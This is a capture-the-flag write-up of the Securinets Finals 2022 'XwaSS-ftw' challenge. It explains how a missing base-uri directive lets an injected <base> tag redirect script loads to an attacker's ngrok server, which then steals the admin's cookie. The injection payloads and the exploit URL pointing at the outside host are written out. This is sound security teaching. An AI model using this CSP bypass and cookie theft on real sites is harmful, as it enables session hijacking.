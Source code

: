 # Securinets-CTF-Finals-2022  
## XwaSS-ftw Writeup


This challenge was about achieving an XSS by bypassing the CSP

Challenge :

![image](https://user-images.githubusercontent.com/58823465/167916910-78285058-5944-4b8d-8de8-55650fc0cca5.png)


We can find the CSP in the source code 

``` 
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-uupQ2er9ZEFzu3';connect-src 'self';style-src 'self';font-src 'self';object-src 'none'">
```
First i checked if the "nonce" is a fixed string so we can abuse it but it seems to be dynamic so i ditched that idea quickly and used the CSP validator to get more of an idea about this CSP

![image](https://user-images.githubusercontent.com/58823465/167917258-82fea6ed-7a13-4b8c-838d-e240c89e3966.png)

We can see the the "base-uri missing" meaning we can use `` <base> `` tags and use a technique called Dangling Markup injection.

The base tag is used to specify a base URL for relative links. This URL will be the base URL for every link on the page

So in layman terms if there's ```<base href='https/../'>``` in the source code it will try to fetch the needed assets or tools throught that URL

For example if they're using bootstrap its possible that they added a base tag to get the bootstrap.css or bootstrap.js asset from another url mentionned in the base tag

So to abuse this we can try test it with a random url to see if the base tags are working

We can use this payload

```
'><base href="https://example.com">
``` 

![image](https://user-images.githubusercontent.com/58823465/167918956-ef963dd8-37d1-4fcd-87af-441eee9ce375.png)

and we can notice in the console this particular error 

![image](https://user-images.githubusercontent.com/58823465/167918067-d5b8dc28-87d5-4709-90e0-dd8c7af14469.png)

This means it's trying to fetch the relative path `` /assets/js/bootstrap.js ``, so all we need to do is spin up our own server and add the same relative path and inject some xss in the file "bootstrap.js"

So this is the setup for the server 

![image](https://user-images.githubusercontent.com/58823465/167920326-329be168-ac77-4f9f-aca2-84f29e83bb7a.png)

**note: Make sure to start your ngrok server in the same directory for the /assets/js/bootstrap.js**

so using the payload :

``` '><base href="http://7923-41-225-41-253.ngrok.io"> ```


![image](https://user-images.githubusercontent.com/58823465/167920555-2f43deff-dbb3-4247-a1ba-d16c38d5f14d.png)


And yes !! we get an XSS !!

Now all we have to do is to steal the admin cookie through the report endpoint with our custom ngrok server

![image](https://user-images.githubusercontent.com/58823465/167920820-9cd44941-e9f6-4c1d-b9e9-ee23bd8cd03b.png)


and then we send this url to the admin to steal his cookie !

```http://challenge_link/index.php?src='><base href="http://7923-41-225-41-253.ngrok.io">```

![image](https://user-images.githubusercontent.com/58823465/167921246-78c3a39f-7b38-456c-9890-a611819ca7de.png)



And there you go !! we found our flag :D


``` Flag : Securinets{CSP_W1Th_BaSE_Is_GooD_Nah?} ```


Resources : 

https://klefz.se/2020/11/10/bugpoc-xss-ctf-november-2020-write-up/

https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass


